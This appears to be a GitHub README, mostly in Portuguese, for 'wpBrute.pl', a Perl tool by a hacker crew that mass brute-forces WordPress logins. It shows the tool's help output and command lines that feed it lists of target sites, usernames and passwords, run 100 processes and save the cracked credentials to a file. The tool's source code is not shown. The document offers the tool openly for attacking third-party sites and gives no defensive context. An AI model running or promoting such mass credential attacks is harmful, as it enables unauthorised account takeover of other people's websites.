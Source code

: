 # Mass Wordpress BruteForce

### Descrição:
Script criado para rodar um ataque de força bruta em cms Wordpress

### About:

- Coder: v4p0r
- Team: Yunkers Crew && BRLZ PoC
- Twitter: 0x777null
- Skype: drx.priv

### Como usar:

```
$ perl wpBrute.pl

-------------------------
      WP BRUTE FORCE
-------------------------

Coder: v4p0r
Team: Yunkers Crew && BRLZ PoC
Twitter: 0x777nullSkype: drx.priv

Usage: perl wpBrute.pl --help

```

### Help script:
```
$ perl wpBrute.pl.pl --help

-------------------------
      WP BRUTE FORCE
-------------------------
============================================================
                                                   ,   ,
  ,    ,    /\   /\                               /(   )\
 /( /\ )\  _\ \_/ /_    Simples Mass WP Brute v2  \ \_/ /   , /\ ,
 |\_||_/| < \_   _/ >   Criado                    /_   _\  /| || |\
 \______/  \|0   0|/          Por                | \> </ | |\_||_/|
   _\/_   _(_  ^  _)_             v4p0r          (_  ^  _)  \____/
  ( () ) /`\|V"""V|/`\                         /`\|IIIII|/`\ _\/_
    {}   \  \_____/  /  Date: 01 NOV 20        \  \_____/  /  ()
    ()   /\   )=(   /\  Gretz: YC - HighTech   /\   )=(   /\  ()
    {}  /  \_/\=/\_/  \         All Friends   /  `-.\=/.-'  \ ()
============================================================
Usage: wpBrute.pl [comando]
[+] Comandos:
--help         [Ajuda com os comandos]
--list-site|l  [Seleciona sua lista de sites]
--list-user|u  [Seleciona sua lista de user]
--list-pass|p  [Seleciona sua lista de pass]
--list-save|s  [Onde a lista sera salva]
--process|f    [Quantidade de Processos]
               [Defaut 20]

[!] Exemplos:
perl wpBrute.pl --l sites.txt --u user.txt --p pass.txt --f 100
perl wpBrute.pl --l sites.txt --u user.txt --p pass.txt --f 100 --s cracked.txt
perl wpBrute.pl --list-site sites.txt --list-user user.txt --list-pass pass.txt --process 100
perl wpBrute.pl --list-site sites.txt --list-user user.txt --list-pass pass.txt --process 100 --s cracked.txt

```

### Exemple Script Video:

- https://www.youtube.com/watch?v=yRNlZgxw3PQ
